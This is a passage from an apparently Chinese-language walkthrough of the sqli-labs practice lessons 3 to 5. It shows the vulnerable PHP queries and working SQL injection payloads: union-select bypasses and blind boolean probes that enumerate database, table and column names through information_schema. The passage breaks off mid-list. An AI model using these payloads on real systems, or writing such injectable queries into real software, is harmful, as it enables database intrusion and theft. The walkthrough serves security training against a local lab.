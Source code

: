 基于错误的GET单引号变形字符型注入

vul

```
$sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";
```

bypass

```
http://127.0.0.1/sqli-labs/Less-3/?id=-1') union select 1,2,3 --+
```

### Less-4 GET - Error based - Double Quotes - String

基于错误的GET双引号字符型注入

vul

```
$id = '"' . $id . '"';
$sql="SELECT * FROM users WHERE id=($id) LIMIT 0,1";
```

bypass

```
http://127.0.0.1/sqli-labs/Less-4/?id=-1") union select 1,2,3 --+
```

### Less-5 GET - Double Injection - Single Quotes - String

双注入GET单引号字符型注入

vul

```
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
...
	print_r(mysql_error());
```

payload

#### 基于报错注入

```
//判断数据库的长度
?id=1'and length((select database()))>9--+

//截取判断对应字符
//substr(a,b,c)a是要截取的字符串，b是截取的位置，c是截取的长度。
?id=1'and ascii(substr((select database()),1,1))=115--+

//判断所有表名字符长度
?id=1'and length((select group_concat(table_name) from information_schema.tables where table_schema=database()))>13--+

//逐一判断表名
?id=1'and ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1))>99--+

//判断所有字段名的长度
?id=1'and length((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'))>20--+

//逐一判断字段名
?id=1'and ascii(substr((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),1,1))>99--+

//判断字段内容长度
```